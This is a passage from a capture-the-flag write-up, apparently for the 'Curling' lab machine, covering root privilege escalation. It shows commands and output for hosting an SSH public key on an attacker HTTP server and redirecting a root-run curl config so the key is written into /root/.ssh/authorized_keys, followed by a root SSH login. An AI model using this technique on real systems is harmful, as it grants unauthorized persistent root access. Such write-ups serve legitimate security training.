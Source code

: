 
```
$ ls -lha 
...
-rw------- 1 kali kali 2.6K Oct 31 12:27 curling-rsa
-rw-r--r-- 1 kali kali  563 Oct 31 12:27 curling-rsa.pub
...
```

Lets open the http server again

```
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now lets edit again the `input` file and request it to download the new generated key and add it on the root `authorized_keys` file.

```
url = "http://10.10.14.14/curling-rsa.pub"
output = /root/.ssh/authorized_keys
```

```
floris@curling:~/admin-area$ cat input 
url = "http://10.10.14.14/curling-rsa.pub"
output = /root/.ssh/authorized_keys
```

As soon as we get a request on the HTTP server we can try to ssh as root into the machine using the new key.
```
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.150 - - [31/Oct/2022 12:30:01] "GET /curling-rsa.pub HTTP/1.1" 200 -
```

```
$ ssh -i curling-rsa root@10.10.10.150
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-156-generic x86_64)
...
Last login: Mon Oct 31 19:30:53 2022 from 10.10.14.14

root@curling:~# id
uid=0(root) gid=0(root) groups=0(root)
```



